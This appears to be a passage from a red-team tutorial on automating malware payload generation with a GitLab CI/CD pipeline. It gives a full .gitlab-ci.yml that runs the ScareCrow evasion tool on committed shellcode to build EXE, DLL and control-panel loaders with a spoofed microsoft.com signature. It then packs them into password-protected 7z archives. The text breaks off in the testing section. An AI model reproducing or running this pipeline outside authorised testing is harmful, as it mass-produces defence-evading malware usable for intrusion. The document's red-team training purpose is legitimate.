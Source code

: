 ## Your First CI/CD Pipeline

We are now ready to write our first CI/CD pipeline. CI/CD pipelines in Gitlab use a YAML configuration file which is saved in the root directory of a repository and named "**.gitlab-ci.yml**".

The documentation for the grammar used in this YAML file is located here at https://docs.gitlab.com/ee/ci/.

For this first effort, I have created a three stage pipeline that will generate some ScareCrow malware payload artifacts, ZIP them up and make available after the pipeline run completes.

Gitlab will automatically create a standard ZIP file for any artifacts that exist at the end of a pipeline run, however I like to use a 7Zip file within the outer ZIP file so that I can apply a passphrase.

### Pipeline Stages

In a typical CI/CD pipeline we would see stages such as *build*, *test*, and *deploy* for example. For our purposes we have a similar arrangement however we are not really doing any testing in this initial effort.

I am going to name our pipeline stages:
* PreProcess
* BakeMalware
* PostProcess

It is useful to know that Gitlab CI/CD will predefine a number of environment variables which we can leverage within our pipeline YAML file. These environment variables are documented here at https://docs.gitlab.com/ee/ci/variables/predefined_variables.html.

For the purposes of our pipeline, we make use of the **$CI_COMMIT_SHORT_SHA** variable to create a unique directory for each run of the pipeline.

**PreProcess** will be used to prepare the ground.  It might be some directory structure we need to create, or anything else we think we need before creating the malware payload itself.  In our case, we are creating a directory and creating a symbolic link to the **garble** binary so that ScareCrow will not have to download it.

**BakeMalware** will be used to actually execute ScareCrow a number of times in order to create the required binary artifacts we desire.

**PostProcess** will be used for 7ZIP archive creation purposes. The 7ZIP archive will be created in a directory which is then further zipped and made available as an artifact to download when the pipeline completes.

### The Pipeline Trigger

It is typically for a CI/CD pipeline to be triggered whenever a "**git commit**" occurs, however we can exert a little more control over this using a *workflow* statement in our YAML file.

For the purposes of generating malware loaders, we will need to supply some shellcode, thus we create a "**shellcode**" directory and configure the workflow such that any file changes in the "**shellcode**" directory will trigger a pipeline run.

### Full Listing of Gitlab YAML file

Below is a complete listing of the current "**.gitlab-ci.yml**" file. The major sections are:

* stages: listing all of the pipeline stages to be executed in sequence
* workflow: defining the pipeline trigger condition(s)
* PreProcess: execute any/all actions in the PreProcess stage.
* ScareCrow: configured as BakingMalware stage
* PostProcess: zip up files, cleanup and publish artifacts

```
stages:
    - PreProcess
    - BakeMalware
    - PostProcess

workflow:
    rules:
        - changes:
            - shellcode/*

PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - |
            mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            ln -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble

ScareCrow:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.
com

PostProcess:
    stage: PostProcess
    tags:
        - maas
    script:
        - |
            DEST=${CI_PROJECT_DIR}/ScareCrowPayloads
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            cd /payloads
            7z a "${DEST}/${CI_COMMIT_SHORT_SHA}.7z" "${CI_COMMIT_SHORT_SHA}/*" -p"infected"
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}
    artifacts:
        name: ScareCrowPayloads
        paths:
            - ScareCrowPayloads/
        expire_in: 1 day
```

### Testing your Pipeline

Before testing the new pipeline, you should double check and ensure that the docker service stack is up and running. Login to your primary docker server, and issue some status checking commands to ensure that everything is running as expected.

* ```docker node ls``` is used to check the status of your docker swarm deployment
* 

